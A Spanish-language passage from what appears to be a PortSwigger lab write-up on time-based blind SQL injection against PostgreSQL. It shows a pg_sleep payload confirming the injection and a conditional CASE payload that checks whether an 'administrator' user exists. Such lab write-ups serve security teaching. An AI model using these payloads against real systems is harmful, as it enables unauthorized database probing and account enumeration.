![](/assets/img/ps-writeup-sqli/ps-lab15_1.png)

Para comprobar si la aplicación es vulnerable, se introduce un retraso de 10 segundos en la consulta utilizando `pg_sleep(10)` de PostgreSQL. Si la respuesta del servidor tarda 10 segundos, significa que la inyección SQL es posible.

```sql
'||pg_sleep(10)--
```

![](/assets/img/ps-writeup-sqli/ps-lab15_3.png)

Se usa una consulta condicional para comprobar si `administrator` está en la base de datos. Si existe, la respuesta tardará 5 segundos. Si el usuario no existiera, la consulta devolvería 0 y la respuesta sería inmediata.

```sql
'||(select case when (1=1) then pg_sleep(5) else pg_sleep(0) end from users where username='administrator')--
```
